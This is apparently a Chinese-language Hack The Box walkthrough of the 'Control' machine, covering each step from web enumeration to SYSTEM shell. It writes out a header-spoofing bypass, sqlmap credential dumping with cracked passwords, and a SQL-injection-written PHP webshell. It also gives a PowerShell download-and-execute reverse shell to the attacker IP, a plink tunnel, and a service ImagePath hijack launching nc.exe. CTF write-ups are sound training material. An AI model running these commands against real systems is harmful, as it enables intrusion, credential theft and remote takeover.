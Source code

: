 # Control_167

![image-20200922094954870](assets/Control_167.assets/image-20200922094954870.png)

```bash
80    IIS10.0
135    rpc
3306    mysql
```

![image-20200922095125847](assets/Control_167.assets/image-20200922095125847.png)

页面上的`login`和`admin`都指向`admin.php`

浏览

![image-20200922095247651](assets/Control_167.assets/image-20200922095247651.png)

查看页面源码

![image-20200922095512971](assets/Control_167.assets/image-20200922095512971.png)

指向`192.168.4.29\myfiles`内网地址

本地认证

尝试使用`x-forwarded`

抓个去往admin页面的包，并修改

![image-20200922095711136](assets/Control_167.assets/image-20200922095711136.png)

`x-forwarded-for: 192.168.4.28`

得到新页面

![image-20200922095950757](assets/Control_167.assets/image-20200922095950757.png)

四处看一看，每次动作都需要抓包，改包。
这就很难受。
先搞方便的。
既然存在3306 mysql

同时我们有一个良好的输入框，先在搜索框试试注入。

尝试搜索并抓包

![image-20200922100052641](assets/Control_167.assets/image-20200922100052641.png)


同时修改包，加上代理。

![image-20200922100125181](assets/Control_167.assets/image-20200922100125181.png)




把这个包内容保存为一个单独txt文件以便发往sqlmap进行注入分析

![image-20200922100203786](assets/Control_167.assets/image-20200922100203786.png)



```bash
$  sqlmap --all -r sql.txt --batch
```

漫长的等待，过程倒是可以看到不少东西。但是实在是太慢了。

![image-20200922100259629](assets/Control_167.assets/image-20200922100259629.png)

![image-20200922100326614](assets/Control_167.assets/image-20200922100326614.png)

![image-20200922100346770](assets/Control_167.assets/image-20200922100346770.png)

```bash
[12:33:37] [INFO] cracked password 'l3tm3!n' for user 'manager'                             
database management system users password hashes:                                           
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
    clear-text password: l3tm3!n
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8

```

![image-20200922100440430](assets/Control_167.assets/image-20200922100440430.png)

manager：l3tm3!n
hector：l33th4x0rhector
有密钥了。但是哪都不行。

所以打数据库。通过注入写入shell文件
还是抓搜索的包，改代理

![image-20200922100624406](assets/Control_167.assets/image-20200922100624406.png)

然后加上注入语句

```bash
productName=D-Link+DWA-171'; select "<?php echo shell_exec($_GET['evilcmd']);?>" into OUTFILE 'C:\\Inetpub\\wwwroot\\evil2.php';#
```

经过几次尝试，我们获得了一个可以执行命令的webshell

![image-20200922100901346](assets/Control_167.assets/image-20200922100901346.png)



然后，显然需要一个更棒的shell

在工作目录准备好powercat

https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

同时在工作目录建立临时web服务

![image-20200922101118515](assets/Control_167.assets/image-20200922101118515.png)

nc监听准备好

![image-20200922101237536](assets/Control_167.assets/image-20200922101237536.png)



利用webshell将准备好的powercat传输到服务器，并操作powercat从靶机链接kali

```bash
http://10.10.10.167/evil2.php?evilcmd=powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.25:8080/powercat.ps1');powercat -c 10.10.14.25 -p 4444 -e cmd"
```

![image-20200922101501604](assets/Control_167.assets/image-20200922101501604.png)




我们上去了。但是基础的枚举做不了，只知道用户hector，应该是下一个跳板

![image-20200922101607676](assets/Control_167.assets/image-20200922101607676.png)

![image-20200922101656699](assets/Control_167.assets/image-20200922101656699.png)

![image-20200922101719568](assets/Control_167.assets/image-20200922101719568.png)

5985.

https://cloud.tencent.com/developer/article/1499065

5985 winRm服务

我们有hash，
so，
我们需要一个可以在本地进行生成隧道的程序，以便连接攻击机和端口5985

尝试通过之前的webshell上传plink，但是被吞，估计是没有写exe权限

![image-20200922101805304](assets/Control_167.assets/image-20200922101805304.png)

再尝试了各种上传方式无效后，我进行了各种google，并且在论坛中得到了，帮助。
我应该上传一个更加powerful的webshell。论坛的小伙伴推荐了

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

重新利用注入点上传另外一个webshell

```bash
$ sqlmap -r sql.txt --file-write=/root/HackTheBox/Control_10.10.10.167/wolfshell.php --file-dest=c:/inetpub/wwwroot/wolfshell.php
```

So,新的webshell

![image-20200922101928434](assets/Control_167.assets/image-20200922101928434.png)

plink cp到工作目录。并通过新shell上传到 uploads目录

![image-20200922102006228](assets/Control_167.assets/image-20200922102006228.png)

![image-20200922102126615](assets/Control_167.assets/image-20200922102126615.png)



为我们的kali增加一个临时用户。为接下来使用ssh隧道做准备。
 `evilx:evilx`

![image-20200922102233168](assets/Control_167.assets/image-20200922102233168.png)


复制脚本到工作目录
https://raw.githubusercontent.com/Hackplayers/evil-winrm/master/evil-winrm.rb

之前的方法，重连rshell

![image-20200922102832752](assets/Control_167.assets/image-20200922102832752.png)

建立绕墙连接

```bash
plink.exe -R 5985:127.0.0.1:5985 10.10.14.25
```

使用之前新建的临时账户反连接kali

![image-20200922103110859](assets/Control_167.assets/image-20200922103110859.png)

为了权限，su root，输入kali 的root密码
利用root权限，使用之前得到的hector的凭证。得到hector的evil-winRm shell

`hector：l33th4x0rhector`

```bash
ruby evil-winrm.rb -i 127.0.0.1 -u Hector -p 'l33th4x0rhector' -s './' -e './'
```

![image-20200922103235550](assets/Control_167.assets/image-20200922103235550.png)

得到user

![image-20200922103621873](assets/Control_167.assets/image-20200922103621873.png)



windows ACL 即windows的访问控制列表/
使用以下命令查询系统CurrentControlSet下的服务，以及使用的权限。

```powershell
get-acl HKLM:\System\CurrentControlSet\services* | Format-List * | findstr /i "Hector Users Path:"
```

![image-20200922103943620](assets/Control_167.assets/image-20200922103943620.png)

![image-20200922104006036](assets/Control_167.assets/image-20200922104006036.png)

我们找到了一个服务`wuauserv`

```powershell
Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
```

![image-20200922104533200](assets/Control_167.assets/image-20200922104533200.png)

修改设定

```powershell
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.25 443 -e cmd" /f
```

这里不是很稳定，试了很多次

![image-20200922104803729](assets/Control_167.assets/image-20200922104803729.png)

kali端443端口设立监听，靶机启动我们修改好的服务

```bash
Start-Service wuauserv
```

监听端口得到system shell，root.txt在Desktop

![image-20200922110435454](assets/Control_167.assets/image-20200922110435454.png)

```bash
cd /
cd Users/Administrator/Desktop
type root.txt


8xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx1

```

